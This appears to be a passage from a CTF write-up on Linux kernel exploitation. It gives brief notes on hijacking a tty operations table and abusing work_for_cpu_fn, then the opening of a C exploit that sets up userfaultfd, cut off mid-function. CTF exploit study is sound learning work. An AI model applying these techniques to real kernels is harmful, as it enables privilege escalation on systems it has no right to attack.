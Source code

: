 I didn't pay much time to review the details in the exploit script and only reproduce it by imitating so the explaination would be very limit.

1. The main idea is control a tty fd and modify the ops table.
2. We can use `work_for_cpu_fn` to run arbitrary function with our parameter
3. There is a little limit about `write`. The element would be changed before trigger `work_forcpu_fn`
4. In chaitin's script, they hijack ioctl and use `ioctl(233,233)` to correctly trigger `work_forcpu_fn` without modifying our parameters.


```c
//gcc ./fs/exp.c -masm=intel --static -o ./fs/exp
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <stdlib.h>
#include <sys/wait.h>
#include <sys/stat.h>
#include <stdint.h>
#include <pthread.h>
#include <sys/types.h>
#include <linux/userfaultfd.h>
#include <sys/syscall.h>
#include <poll.h>
#include <sys/mman.h>
#define PAGE_SIZE 0x1000
#define TTYMAGIC 0x100005401
void * hit ;
uint64_t u64(uint8_t *buf)
{
    uint64_t res = 0;
    for(int i =0 ; i < 8;i++)
    {
        res = res<<8;
        res+=(unsigned int)buf[7-i];
    }
    return res;
}
void Panic(char *s)
{
    printf("[!] Panic:");
    puts(s);
    exit(1);
}
typedef struct{
        size_t idx;
        size_t size;
        char * buf;
    }X;
int fp = 0 ; 
void RegisterUserfault(void *fault_page,void *handler)
{
    pthread_t thr;
    struct uffdio_api ua;
    struct uffdio_register ur;
    uint64_t uffd  = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);
    ua.api = UFFD_API;
    ua.features = 0;
    if (ioctl(uffd, UFFDIO_API, &ua) == -1)
        Panic("ioctl-UFFDIO_API");

```

[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://ctf-wiki.org/pwn/linux/kernel-mode/exploitation/userfaultfd/
